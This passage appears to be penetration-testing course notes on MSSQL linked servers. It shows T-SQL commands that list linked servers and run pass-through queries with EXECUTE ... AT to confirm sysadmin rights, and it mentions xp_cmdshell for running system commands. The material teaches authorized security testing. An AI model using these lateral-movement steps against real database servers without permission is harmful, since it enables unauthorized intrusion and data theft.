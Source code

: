 ## Communicate with Other Databases with MSSQL

`MSSQL` has a configuration option called [linked servers](https://docs.microsoft.com/en-us/sql/relational-databases/linked-servers/create-linked-servers-sql-server-database-engine). Linked servers are typically configured to enable the database engine to execute a Transact-SQL statement that includes tables in another instance of SQL Server, or another database product such as Oracle.

If we manage to gain access to a SQL Server with a linked server configured, we may be able to move laterally to that database server. Administrators can configure a linked server using credentials from the remote server. If those credentials have sysadmin privileges, we may be able to execute commands in the remote SQL instance. Let's see how we can identify and execute queries on linked servers.

#### Identify linked Servers in MSSQL

  Attacking SQL Databases

```cmd-session
1> SELECT srvname, isremote FROM sysservers
2> GO

srvname                             isremote
----------------------------------- --------
DESKTOP-MFERMN4\SQLEXPRESS          1
10.0.0.12\SQLEXPRESS                0

(2 rows affected)
```

As we can see in the query's output, we have the name of the server and the column `isremote`, where `1` means is a remote server, and `0` is a linked server. We can see [sysservers Transact-SQL](https://docs.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysservers-transact-sql) for more information.

Next, we can attempt to identify the user used for the connection and its privileges. The [EXECUTE](https://docs.microsoft.com/en-us/sql/t-sql/language-elements/execute-transact-sql) statement can be used to send pass-through commands to linked servers. We add our command between parenthesis and specify the linked server between square brackets (`[ ]`).

  Attacking SQL Databases

```cmd-session
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO

------------------------------ ------------------------------ ------------------------------ -----------
DESKTOP-0L9D4KA\SQLEXPRESS     Microsoft SQL Server 2019 (RTM sa_remote                                1

(1 rows affected)
```

**Note:** If we need to use quotes in our query to the linked server, we need to use single double quotes to escape the single quote. To run multiples commands at once we can divide them up with a semi colon (;).

As we have seen, we can now execute queries with sysadmin privileges on the linked server. As `sysadmin`, we control the SQL Server instance. We can read data from any database or execute system commands with `xp_cmdshell`. This section covered some of the most common ways to attack SQL Server and MySQL databases during penetration testing engagements. There are other methods for attacking these database types as well as others, such as [PostGreSQL](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql), SQLite, Oracle, [Firebase](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/buckets/firebase-database), and [MongoDB](https://book.hacktricks.xyz/network-services-pentesting/27017-27018-mongodb) which will be covered in other modules. It is worth taking some time to read up on these database technologies and some of the common ways to attack them as well.
# Tags
> #Exploitation #Service-Exploitation #MSSQL 